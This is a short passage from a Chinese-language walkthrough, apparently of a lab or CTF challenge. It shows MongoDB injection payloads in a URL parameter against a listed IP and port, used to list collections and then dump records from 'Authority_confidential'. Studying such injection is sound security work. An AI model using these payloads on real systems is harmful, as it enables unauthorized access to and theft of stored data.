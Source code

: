 -   注入姿势
-   拿到集合

```plain
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.getCollectionNames()),1:'1
```

[![](assets/1711465904-3dfe55339aeec780851fdff5fc85d15e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323182014-f05a01fe-e8fe-1.png)

-   查看集合中的数据

```plain
# 第一条
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[0]),1:'1

# 第二条
219.153.49.228:41861/new_list.php?id=1'});return ({title:tojson(db.Authority_confidential.find()[1]),1:'1
```

[![](assets/1711465904-d015266eabcdcca2a3b4ad95d70895d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323182023-f597c0b6-e8fe-1.png)

[![](assets/1711465904-6aeeb777b04210611c740dc95c54f514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240323182027-f7ed5812-e8fe-1.png)

